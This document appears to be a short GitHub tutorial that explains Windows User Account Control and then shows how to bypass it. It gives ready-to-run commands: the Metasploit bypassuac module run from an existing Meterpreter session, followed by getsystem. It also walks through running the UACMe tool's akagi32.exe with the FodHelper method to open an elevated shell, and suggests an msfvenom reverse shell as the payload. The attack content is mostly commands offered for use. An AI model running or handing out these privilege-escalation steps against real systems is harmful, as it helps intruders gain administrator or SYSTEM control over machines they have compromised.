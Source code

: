 ## 💡 What is UAC in Windows?

**UAC (User Account Control)** is a safety feature in Windows.

It **asks for permission** when a program tries to make big changes, like installing something or changing system settings.

👉 Example: When a pop-up asks **“Do you want to allow this app to make changes?”**, that’s UAC. as shown in image

<img width="1541" height="791" alt="image" src="https://github.com/user-attachments/assets/1ee0383d-1493-4c80-b0c5-0ce8a4ab122b" />

## **How To Bypass UAC:**

## 1. **Metasploit Framework**

Once you’ve gained access to a Windows system using Metasploit (a Meterpreter session), you can try bypassing UAC to gain admin-level access.

```bash
use exploit/windows/local/bypassuac
set SESSION 1
run
```

run to Attempts to escalate to **SYSTEM**.

```bash
getsystem
```

check privilage

```bash
whoami /priv
```

---

## **2. UACMe (Easy Tool for Bypass)**

**UACMe** is a tool that exploits various UAC bypass techniques.

**Steps to Bypass UAC with UACMe:**

1. **Download UACMe** from GitHub:
    
    ```bash
    git clone https://github.com/hfiref0x/UACME
    ```
    
2. **Compile** or use pre-built binaries.
3. **Choose an exploit method** (e.g., `Method 23` – FodHelper bypass).
4. **Execute the exploit** from a low-privilege cmd:
    1. `akagi32.exe`  is the exploit
    2. `23` is the method of exploit you can try different 
    3. `c:\windows\system32\cmd.exe`  you can use msfvenom reverse shell or cmd for accessing it 
    
    ```bash
    akagi32.exe 23 c:\windows\system32\cmd.exe
    ```
    

---

## 🧠 **Note:**

- This works only if the current user is in the **Administrators group**.
- It will not work if UAC is set to "Always notify."
    
<img width="934" height="697" alt="image" src="https://github.com/user-attachments/assets/726645a9-8b16-437c-b791-e38b342e3ffa" />
  

---
